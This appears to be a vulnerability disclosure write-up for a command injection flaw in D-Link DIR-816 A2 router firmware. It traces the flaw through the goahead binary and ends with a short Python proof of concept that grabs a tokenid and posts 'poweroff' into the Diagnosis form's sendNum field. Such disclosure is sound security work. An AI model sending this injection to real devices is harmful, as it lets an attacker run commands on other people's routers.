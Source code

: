 # D-Link DIR-816 A2 1.10 B05 command injection

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816
![image-1](./img/1.jpg)

## Vulnerability
Vulnerability is in ./bin/goahead. The function corresponding to Diagnosis can be found in the formDefineManagement function: 
![image-1](./img/2.jpg)

In the sub_45AC4C function  

![image-1](./img/3.jpg)

After concatenating the strings, the system command is executed.

but in the main function, Accessing the /goform route requires verification by the websFormHandler function
![image-1](./img/4.jpg)

In the websFormHandler function
![image-1](./img/5.jpg)

Accessing the /goform route need a tokenid, and access this route can get a tokenid

![image-1](./img/6.jpg)

## Verify
First, get a tokenid
```
curl http://127.0.0.1/dir_login.asp
```
And then excuting a command
```
import requests

url = "http://127.0.0.1/goform/Diagnosis"

data = {
    "tokenid": "xxx",
    "pingAddr": "127.0.0.1",
    "sendNum": "poweroff"
}

requests.post(url=url, data=data)
```
